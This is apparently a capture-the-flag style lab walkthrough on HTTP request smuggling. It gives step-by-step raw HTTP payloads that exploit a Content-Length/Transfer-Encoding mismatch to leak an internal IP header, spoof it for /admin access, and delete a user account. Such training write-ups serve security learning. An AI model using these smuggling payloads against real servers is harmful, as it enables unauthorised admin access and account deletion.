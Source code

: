 # Exploiting HTTP request smuggling to reveal front-end request rewriting

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## There's an admin panel at `/admin`, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

## To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user `carlos`

### step 1

set payload

```
Transfer-Encoding: chunked

userid=test
```

![screenshot](./images/images_lab8/lab8_test_first_payload.png)

### step2

```
Content-Length: 21
Transfer-Encoding: chunked

b
userid=test
0


```

![screenshot](./images/images_lab8/lab8_2nd_payload.png)

### step3

```
Content-Length: 20
Transfer-Encoding: chunked

b
userid=test
0


```

![screenshot](./images/images_lab8/lab8_2nd_payload_with_content_length_less.png)

### step4

```
b
userid=test
0

POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Host: 127.0.0.1

userid=test
```

![screenshot](./images/images_lab8/lab8_unauthorized.png)

![screenshot](./images/images_lab8/lab8_content_length_add_one.png)

### step5

`Content-Length: 11
`search=test`

![screenshot](./images/images_lab8/lab8_search_test.png)

### step6

```
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

![screenshot](./images/images_lab8/lab8_post_request_search.png)

### step7

```
Content-Length: 154
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
X-AOSTLB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
connection: closed

search=test

```

![screenshot](./images/images_lab8/lab8_administrator.png)

### step8

```
Content-Length: 177
Transfer-Encoding: chunked

0

POST /admin/delete?username=carlos HTTP/1.1
X-AOSTLB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
connection: closed

search=test

```

![screenshot](./images/images_lab8/lab8_delete_carlos_account.png)

### step9

![screenshot](./images/images_lab8/lab8_lab_solved.png)
